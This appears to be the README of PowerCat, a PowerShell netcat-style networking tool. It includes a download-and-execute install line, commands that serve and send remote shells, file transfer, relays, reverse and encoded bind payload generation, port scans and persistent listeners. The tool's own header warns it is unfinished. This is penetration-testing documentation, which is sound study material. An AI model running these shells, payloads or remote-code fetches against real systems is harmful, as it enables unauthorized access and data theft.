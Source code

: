PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded psm1/psd1 File:
    Import-Module PowerCat.psm1
    # Load the functions individually from URL:
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    Start-PowerCat # Listener
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
    -Port           # The port to listen on.                              [Int]
	-PipeName       # Name of pipe to listen on.                          [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
	
	Connect-PowerCat # Client
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
	-RemoteIp       # IPv4 address of host to connect to.                 [String]
    -Port           # The port to connect to.                             [Int]
	-PipeName       # Name of pipe to connect to.                         [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads/writes from/to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Recieve File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB:
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using New-PowerCatPayload. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -Client -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Encoded -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -SendFile C:\pathto\inputfile -KeepAlive
```
